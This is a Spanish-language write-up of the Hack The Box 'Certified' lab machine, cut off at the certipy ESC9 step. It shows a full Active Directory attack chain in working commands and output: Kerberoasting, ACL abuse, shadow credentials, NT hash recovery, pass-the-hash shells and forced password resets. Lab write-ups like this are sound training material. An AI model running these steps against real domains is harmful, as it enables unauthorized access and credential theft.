

+++
author = "Andrés Del Cerro"
title = "Hack The Box: Certified Writeup | Medium"
date = "2025-03-19"
description = ""
tags = [
    "HackTheBox",
    "Certified",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "SMB Enumeration",
    "LDAP Enumeration",
    "Bloodhound Enumeration",
    "Bloodhound",
    "ASREPRoast",
    "Kerberos Enumeration",
    "Kerberoast",
    "Abusing WriteOwner",
    "Abusing GenericWrite",
    "Abusing WinRM",
    "Pass The Hash",
    "ESC9"
]

+++

# Hack The Box: Certified Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Certified"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a 10.129.186.36 --ulimit 5000 -g
10.129.186.36 -> [53,88,135,139,389,445,464,593,3268,3269,636,5985,9389,49678,49669,49666,49677,49681,49708,49729,51949]
```

```console
nmap -p53,88,135,139,389,445,464,593,3268,3269,636,5985,9389,49678,49669,49666,49677,49681,49708,49729,51949 -sCV 10.129.186.36 -oN allPorts -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 13:13 CET
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 61.90% done; ETC: 13:14 (0:00:16 remaining)
Nmap scan report for 10.129.186.36
Host is up (0.038s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-04 19:13:49Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-11-04T19:15:18+00:00; +7h00m00s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-04T19:15:18+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-04T19:15:18+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-04T19:15:19+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
49729/tcp open  msrpc         Microsoft Windows RPC
51949/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-11-04T19:14:42
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.21 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.186.36 -oN allPorts.UDP
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 13:16 CET
Nmap scan report for 10.129.186.36
Host is up (0.035s latency).
Not shown: 1497 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 0.89 seconds
```

Al empezar la máquina, podemos leer una nota, empezamos con las siguientes credenciales.

> As is common in real life Windows pentests, you will start the Certified box with credentials for the following account: judith.mader / judith09

Del escaneo inicial encontramos el dominio `certified.htb` y el DC `DC01.certified.htb`, vamos a agregar ambos al `/etc/hosts`

# Enumerating our user
Como hemos empezado con un usuario, es interesante saber si este usuario tiene permisos para conseguir una consola interactiva mediante WinRM u enumerar el SMB.

Primero, vamos a comprobar que las credenciales son válidas.
```console
nxc smb 10.129.186.36 -u 'judith.mader' -p 'judith09'
SMB         10.129.186.36   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.186.36   445    DC01             [+] certified.htb\judith.mader:judith09
```

Ahora podemos comprobar que este usuario no pertenece al grupo de `Remote Management Users`
```console
nxc winrm 10.129.186.36 -u 'judith.mader' -p 'judith09'
WINRM       10.129.186.36   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
WINRM       10.129.186.36   5985   DC01             [-] certified.htb\judith.mader:judith09
```

## SMB Enumeration
Con el propio `netexec` vamos a ver que recursos compartidos a nivel de red existen.
```console
nxc smb 10.129.186.36 -u 'judith.mader' -p 'judith09' --shares
SMB         10.129.186.36   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.186.36   445    DC01             [+] certified.htb\judith.mader:judith09
SMB         10.129.186.36   445    DC01             [*] Enumerated shares
SMB         10.129.186.36   445    DC01             Share           Permissions     Remark
SMB         10.129.186.36   445    DC01             -----           -----------     ------
SMB         10.129.186.36   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.186.36   445    DC01             C$                              Default share
SMB         10.129.186.36   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.186.36   445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.186.36   445    DC01             SYSVOL          READ            Logon server share
```

No vemos ningún recurso interesante para el que tengamos permisos.

Podemos enumerar el recurso `NETLOGON` ya que a veces hay scripts interesantes pero no encontramos nada.
```console
smbclient "\\\\10.129.186.36\\NETLOGON" -U 'judith.mader%judith09'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon May 13 17:02:13 2024
  ..                                  D        0  Mon May 13 17:02:13 2024

		5085183 blocks of size 4096. 1104224 blocks available
```

Tampoco encontramos ningún script interesante en `SYSVOL`
```console
smb: \certified.htb\> dir
  .                                   D        0  Mon May 13 17:08:31 2024
  ..                                  D        0  Mon May 13 17:08:31 2024
  DfsrPrivate                      DHSr        0  Mon May 13 17:08:31 2024
  Policies                            D        0  Mon May 13 17:02:18 2024
  scripts                             D        0  Mon May 13 17:02:13 2024

		5085183 blocks of size 4096. 1104224 blocks available
smb: \certified.htb\> cd scripts
smb: \certified.htb\scripts\> dir
  .                                   D        0  Mon May 13 17:02:13 2024
  ..                                  D        0  Mon May 13 17:02:13 2024

		5085183 blocks of size 4096. 1104224 blocks available
```

## LDAP Enumeration
Vamos a utilizar `ldapdomaindump` para hacer un reconocimiento al servicio LDAP de una forma cómoda y organizada.
```console
ldapdomaindump --no-json --no-grep -n 10.129.186.36 -u "certified.htb\judith.mader" -p judith09 ldap://certified.htb
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

Ahora podemos ver que se nos genera varios archivos `.html`
```console
ls
combo.txt  domain_computers_by_os.html  domain_computers.html  domain_groups.html  domain_policy.html  domain_trusts.html  domain_users_by_group.html  domain_users.html
```

Con `python` podemos servir estos archivos por el puerto 8081 y visualizarlos desde el navegador cómodamente.

```console
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```


Encontramos una cosa interesante, existe un usuario llamado `management_svc` que pertenece al grupo `Remote Management Users` y a un grupo llamado `Management`, si conseguimos las credenciales de este usuario, podríamos obtener una consola a la máquina víctima mediante herramientas como `evil-winrm`


Podemos hacernos un listado de usuarios ahora que tenemos la información.
```console
➜  content cat users.txt
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: users.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ gregory.cameron
   2   │ harry.wilson
   3   │ alexander.huges
   4   │ ca_operator
   5   │ management_svc
   6   │ judith.mader
   7   │ krbtgt
   8   │ guest
   9   │ Administrator
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Ahora con `netexec` podemos hacer un `password spraying attack` por si se reutiliza la credencial inicial y vemos que no.

```console
➜  content nxc smb 10.129.186.36 -u users.txt -p judith09 --continue-on-success
SMB         10.129.186.36   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.186.36   445    DC01             [-] certified.htb\gregory.cameron:judith09 STATUS_LOGON_FAILURE
SMB         10.129.186.36   445    DC01             [-] certified.htb\harry.wilson:judith09 STATUS_LOGON_FAILURE
SMB         10.129.186.36   445    DC01             [-] certified.htb\alexander.huges:judith09 STATUS_LOGON_FAILURE
SMB         10.129.186.36   445    DC01             [-] certified.htb\ca_operator:judith09 STATUS_LOGON_FAILURE
SMB         10.129.186.36   445    DC01             [-] certified.htb\management_svc:judith09 STATUS_LOGON_FAILURE
SMB         10.129.186.36   445    DC01             [+] certified.htb\judith.mader:judith09
SMB         10.129.186.36   445    DC01             [-] certified.htb\krbtgt:judith09 STATUS_LOGON_FAILURE
SMB         10.129.186.36   445    DC01             [-] certified.htb\guest:judith09 STATUS_LOGON_FAILURE
SMB         10.129.186.36   445    DC01             [-] certified.htb\Administrator:judith09 STATUS_LOGON_FAILURE
```

## Kerberos Enumeration
Ahora con la lista de usuarios, podemos ver si algún usuario es ASREPRoastable, esto lo podemos hacer con `impacket-GetNPUsers` y vemos que no hay suerte.

```console
➜  content impacket-GetNPUsers certified.htb/ -usersfile users.txt -dc-ip 10.129.186.36
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[-] User gregory.cameron doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User harry.wilson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User alexander.huges doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ca_operator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User management_svc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User judith.mader doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

También podemos comprobar si existe algún usuario Kerberoastable y vemos que sí, casualmente el usuario es `management_svc` así que ya sabemos que significa eso.
```console
➜  content impacket-GetUserSPNs certified.htb/judith.mader:judith09 -target-domain certified.htb -dc-ip 10.129.186.36
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

ServicePrincipalName               Name            MemberOf                                    PasswordLastSet             LastLogon  Delegation
---------------------------------  --------------  ------------------------------------------  --------------------------  ---------  ----------
certified.htb/management_svc.DC01  management_svc  CN=Management,CN=Users,DC=certified,DC=htb  2024-05-13 17:30:51.476756  <never>
```

Al intentar solicitar el `KRB_AP` vemos que no tenemos la hora sincronizada con el DC.
```console
➜  content impacket-GetUserSPNs certified.htb/judith.mader:judith09 -target-domain certified.htb -dc-ip 10.129.186.36 -request
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

ServicePrincipalName               Name            MemberOf                                    PasswordLastSet             LastLogon  Delegation
---------------------------------  --------------  ------------------------------------------  --------------------------  ---------  ----------
certified.htb/management_svc.DC01  management_svc  CN=Management,CN=Users,DC=certified,DC=htb  2024-05-13 17:30:51.476756  <never>


[-] CCache file is not found. Skipping...
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Con `ntpdate` fácilmente la podemos sincronizar, kerberos, en su intercambio de paquetes depende de la hora para hashear parte del reto que se le pone al usuario que se está autenticando, por esto es tan importante tener expuesto el servicio NTP en entornos de directorio activo.

```console
➜  content sudo ntpdate 10.129.186.36
[sudo] password for kali:
2024-11-04 20:33:19.646364 (+0100) +25199.924646 +/- 0.018690 10.129.186.36 s1 no-leap
CLOCK: time stepped by 25199.924646
```

Ahora sí que podemos solicitar el ticket.
```console
➜  content impacket-GetUserSPNs certified.htb/judith.mader:judith09 -target-domain certified.htb -dc-ip 10.129.186.36 -request
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

ServicePrincipalName               Name            MemberOf                                    PasswordLastSet             LastLogon  Delegation
---------------------------------  --------------  ------------------------------------------  --------------------------  ---------  ----------
certified.htb/management_svc.DC01  management_svc  CN=Management,CN=Users,DC=certified,DC=htb  2024-05-13 17:30:51.476756  <never>


[-] CCache file is not found. Skipping...
$krb5tgs$23$*management_svc$CERTIFIED.HTB$certified.htb/management_svc*$26fb8e5306b461c55a30b7a3a987d410$cb4d4e54df7978868c591e644cdb867ee4cbe6a97ee01cac52bfe09f1f84bddba9ab6b03bbafe85dc68e48d64582821f2cd26440ff4217ce389cc5b18ab6934843e4f897f895786b510c799835fc29c640602a6cfa16a2867420843ab941fffcdadc4b612ee33ff8f85f9bd5f7d4b1c91e9b20e795af75f46527f66fbd4d2fcbb43352e310d86efec923c001b251617342fa38425c0b853fa6f9a4b7330b06a690d9e707e4415a8cb000bece8c7f7f88a8155be8950e64aa920870a50637bf2fca63d800893e20d5b65b7da7f7853d78af97fb3fdb81f49b4f03a4e8c55b49255d3899019948a5a4f72298dfdfeab9b855fe92d6e4dc31bbc289d285d5eaa03ef66031c050672963b7a12f93b51e3a196fe45c39266a40fee7c1457cd973d35979c059ee97e92a5ced8dc4df81c1bbe362e194b4e6e4d6bbeb8eeb30a106451d895fc7b6bf7509108fbc36890fa2a4329f0a11960207561054d608930d168349c579f3ba3f122dd8495d3783fae13e82c0c85d83cb36617dd16ed91dee96f0f4a536f25409122002ce3bdede0c72930eed7b0bd18e8f71362c056a00c468eef2c566ea7ad641dfb00e64d887549e8b542109f407de2375d425f81e02a655de31940198263a6f1d076c78dd5e700df43242ca2d4c9c1d13d44f4c159e40fe24a54f3db60f33bf35d820208f220522fd377ee81a0147c84b36c0e477792580fc5efb751c39c55cea03bb8f4b0b2ffa2125d83678f69eed3cc983b547cd4925e74dbdf7be06a0a507e7fef2c00fd4e35653e7db42443c0c59adddba96f88108ff15e25a55cb16be2e4a2a370d4a850fb7b7169e55326bffe0a148fb5d35b61d6f447a44f6a4d08ace1ceeeb2067de62ffac998b22da8ab2c519d9ea2490297fe5bb951ee119e7a7b03923fb9ff6ffb5f6a60220410bbb21a9cc9e89f8800c951d684f2e40e4d2a4555ac7391d63793e0103cb87dc1b4781bc3e890945d88633aa1bd38b5401fe2c98b8b5e0bedf6daed697e1d8a99a021df25e5670f1ee9e7e1d6d65e38bb22929caf6291e8a98de65cf281d3879ca022b2856d7a1a2f68cf71d296abb28df7ae9a71da7dfa52f40ca2e3c7f6eea842b22ff5223551c728ebcfde72d9a90b2e137692049778298c1d2355d16e0769a7981dd7d84f11b5b8189592544bb1f8770e6057afdbb6b06085b7fe29d9341507ea703a73ce628ff777f5cbc5a5a15ef05157816965a6f6ef643fa7a859b075355ccf86dac978b63c018c8a1b95735403637e1b1ef1dbe547ff299faef97055655ee5d2ce29306e03ff5d18d79ce041a5ac80345d1fa93d949ff2db86f13e20e54f7c437585ffa4df49cdd617cfeda0b93a464635f0c04f81fbf9ff4e779f78c735c5754cea3888f3f5c679b80c76ca7c412b0b7c6c9bb5225ccb9aaeebb84fe4aff50f882e6503b786967d98c6ff2b11153f9b3c53e97237b68fd25bd5aabf252d079c8873e3182c1a6e2f9568c394ae9e97c30e928a62c23c7465f022c9d33e1beba208074af48434ee952ec9b1560c2f68062c7108adb70230b7a0b0ba8bb7fb3dccee598
```

Ahora con `johntheripper` podemos intentar crackear este ticket TGS y vemos que no hay suerte.

```console
content john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 DONE (2024-11-04 20:34) 0g/s 1917Kp/s 1917Kc/s 1917KC/s !!12Honey..*7¡Vamos!
Session completed.
```

Entonces tiene pinta de que hemos caído en un rabbit hole...

## Bloodhound It!
Ya que tenemos credenciales y no hemos encontrado nada por LDAP, podemos utilizar `bloodhound-python` para seguir enumerando el dominio en búsqueda de algún permiso interesante que quizás pueda tener nuestro usuario.

```console
bloodhound-python -c All -d certified.htb -u judith.mader -p judith09 -ns 10.129.186.36 -dc DC01.certified.htb
INFO: Found AD domain: certified.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: DC01.certified.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: DC01.certified.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 07S
```

Ahora podemos ver que tenemos varios archivos `.json`
```console
ls
20241104204809_computers.json  20241104204809_containers.json  20241104204809_domains.json  20241104204809_gpos.json  20241104204809_groups.json  20241104204809_ous.json  20241104204809_users.json
```

Estos archivos están listos para ser importados en `bloodhound`, primero tenemos que iniciar la base de datos `neo4j` ya que `bloodhound` depende de ella.
```console
sudo neo4j start
[sudo] password for kali:
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:38875). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

Ahora ya simplemente queda abrir `bloodhound` e importar los archivos.


Una vez importado, vamos a marcar como `owned` al usuario `judith.mader`


# Abusing `WriteOwner` + `GenericWrite` -> Foothold
Rápidamente encontramos que el usuario `judith.mader` tiene el permiso `WriteOwner` sobre el grupo `Management`, esto significa que podemos modificar quien es el propietario de este grupo


Vamos a utilizar `bloodyAD`, como estoy utilizando otra máquina y tengo problemas con las dependencias, vamos a crear un entorno virtual de python para instalar `bloodyAD`.

```console
python -m venv bloodyad
```

```console
➜  content source bloodyad/bin/activate
(bloodyad) ➜  content
```

Y ya solo queda instalar `bloodyAD`
```console
content pip install bloodyAD
```

```console
(bloodyad) ➜  content bloodyAD
usage: bloodyAD [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-c CERTIFICATE] [-s] [--host HOST] [--dc-ip DC_IP] [--gc] [-v {QUIET,INFO,DEBUG}] {add,get,remove,set} ...

AD Privesc Swiss Army Knife

options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication (Do not specify to trigger integrated windows authentication)
  -k, --kerberos
  -c CERTIFICATE, --certificate CERTIFICATE
                        Certificate authentication, e.g: "path/to/key:path/to/cert"
  -s, --secure          Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)
  --dc-ip DC_IP         IP of the DC (used for kerberos auth if hostname doesn't resolve)
  --gc                  Connect to Global Catalog (GC)
  -v {QUIET,INFO,DEBUG}, --verbose {QUIET,INFO,DEBUG}
                        Adjust output verbosity

Commands:
  {add,get,remove,set}
    add                 [ADD] function category
    get                 [GET] function category
    remove              [REMOVE] function category
    set                 [SET] function category
```

Ahora podemos cambiar el propietario del grupo `Management` para que sea `judith.mader`
```console
(bloodyad) ➜  content bloodyAD -d certified.htb -u judith.mader -p judith09 --host DC01.certified.htb --dc-ip 10.129.186.36 set owner Management judith.mader
[+] Old owner S-1-5-21-729746778-2675978091-3820388244-512 is now replaced by judith.mader on Management
```

Ahora, en principio podemos agregarnos nosotros mismos al grupo pero primero debemos cambiar la ACL para permitirnos a nosotros mismos como propietarios del grupo agregar a otros miembros.
```console
(bloodyad) ➜  pywhisker git:(changeglobal) dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] DACL backed up to dacledit-20241104-210905.bak
[*] DACL modified successfully!
```

Ahora sí, podemos agregarnos a nosotros mismos al grupo.
```console
(bloodyad) ➜  pywhisker git:(changeglobal) ✗ net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "DC01.certified.htb"
```

Ahora, como el grupo tiene el permiso `GenericWrite` y nosotros somos propietarios del grupo y pertenecemos a el, podemos crear una `Shadow Credential` para el usuario `management_svc` 

Nos clonamos el repositorio de `pywhisker` para realizar este ataque (en este caso me he clonado un fork de este repositorio que soluciona un problema que estaba teniendo).
```console
git clone https://github.com/h-jinber/pywhisker.git
```

Ahora cambiamos a la rama que contiene la solución a mi fallo.
```console
(bloodyad) ➜  pywhisker git:(main) git checkout changeglobal
branch 'changeglobal' set up to track 'origin/changeglobal'.
Switched to a new branch 'changeglobal'
```

Instalamos las dependencias de `pywhisker`
```console
pip3 install -r requirements.txt
```

Ahora creamos la `Shadow Credential` para `management_svc` con `pywhisker`
```console
(bloodyad) ➜  pywhisker git:(changeglobal) ✗ python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 6e1e3b94-1dc6-e172-375f-ac52b80ccb04
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: JmYEsgBb.pfx
[*] Must be used with password: Y5zLquNEFyodnpv3WltZ
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

Vemos que me ha guardado un archivo .pfx, este archivo lo vamos a utilizar para conseguir un TGT.

Para ello nos descargamos el repositorio que se nos adjunta desde `pywhisker`
```console
(bloodyad) ➜  pywhisker git:(changeglobal) ✗ git clone https://github.com/dirkjanm/PKINITtools
Cloning into 'PKINITtools'...
remote: Enumerating objects: 36, done.
remote: Counting objects: 100% (36/36), done.
remote: Compressing objects: 100% (25/25), done.
remote: Total 36 (delta 15), reused 28 (delta 9), pack-reused 0 (from 0)
Receiving objects: 100% (36/36), 25.31 KiB | 762.00 KiB/s, done.
Resolving deltas: 100% (15/15), done.
```

Primero solicitamos el ticket TGT.
```console
(bloodyad) ➜  pywhisker git:(changeglobal) ✗ python3 PKINITtools/gettgtpkinit.py -cert-pfx JmYEsgBb.pfx -pfx-pass Y5zLquNEFyodnpv3WltZ certified.htb/management_svc management.ccache
2024-11-04 21:20:31,963 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-11-04 21:20:31,980 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-11-04 21:20:46,094 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-11-04 21:20:46,094 minikerberos INFO     84b4790e3b6f8f4bcf9ddfe89cf0807592101e3578c30c91b3a9617f76ebf966
INFO:minikerberos:84b4790e3b6f8f4bcf9ddfe89cf0807592101e3578c30c91b3a9617f76ebf966
2024-11-04 21:20:46,099 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Y ahora, podemos recuperar el hash NT que nos va a servir para hacer PassTheHash y conseguir una consola interactiva.

Importante exportar la variable de entorno `KRB5CCNAME` para que valga como el ticket TGT que hemos solicitado.
```console
(bloodyad) ➜  pywhisker git:(changeglobal) ✗ export KRB5CCNAME=management.ccache
(bloodyad) ➜  pywhisker git:(changeglobal) ✗ python3 PKINITtools/getnthash.py -key 84b4790e3b6f8f4bcf9ddfe89cf0807592101e3578c30c91b3a9617f76ebf966 certified.htb/management_svc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```

## Pass The Hash
Ahora con `netexec` podemos comprobar que el hash sea válido.
```console
(bloodyad) ➜  pywhisker git:(changeglobal) ✗ nxc smb 10.129.186.36 -u management_svc -H "a091c1832bcdd4677c28b5a6a1295584"
SMB         10.129.186.36   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.186.36   445    DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584
```

Y ya con `evil-winrm` podemos hacer Pass The Hash y conseguir una consola interactiva como `management_svc`

```console
(bloodyad) ➜  pywhisker git:(changeglobal) ✗ evil-winrm -i 10.129.186.36 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> whoami
certified\management_svc
```

Podemos leer la flag de usuario.
```console
*Evil-WinRM* PS C:\Users\management_svc\Desktop> type user.txt
66ee8ff2929dc8...
```

# Privilege Escalation (ESC9)

Si volvemos al `bloodhound`, podemos ver que nuestro usuario tiene el permiso `GenericAll` sobre el usuario `CA_OPERATOR`


No veo que pertenezca a ningún grupo interesante, pero solo por el nombre de usuario ya me intuyo que tenga algún permiso especial que me facilite la escalada de privilegios.

Así que podemos cambiar la contraseña a este usuario con `pth-net` ya que no tenemos la credencial de `management_svc`, solo el hash NT.
```console
➜  content pth-net rpc password "ca_operator" "Pointed123@" -U "certified.htb"/"management_svc"%"a091c1832bcdd4677c28b5a6a1295584":"a091c1832bcdd4677c28b5a6a1295584" -S "DC01.certified.htb"
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
➜  content nxc smb 10.129.186.36 -u ca_operator -p 'Pointed123@'
SMB         10.129.186.36   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.186.36   445    DC01             [+] certified.htb\ca_operator:Pointed123@
```

Viendo que el nombre de la máquina es `Certified` y que al hacer un `whoami /groups` vemos el grupo `BUILTIN\Certificate Service DCOM Access` podemos con `certipy` examinar el DC en busca de plantillas de certificados vulnerables.

```console
➜  content certipy find -dc-ip 10.129.186.36 -target-ip 10.129.186.36 -vulnerable -u ca_operator@certified.htb -p Pointed123@
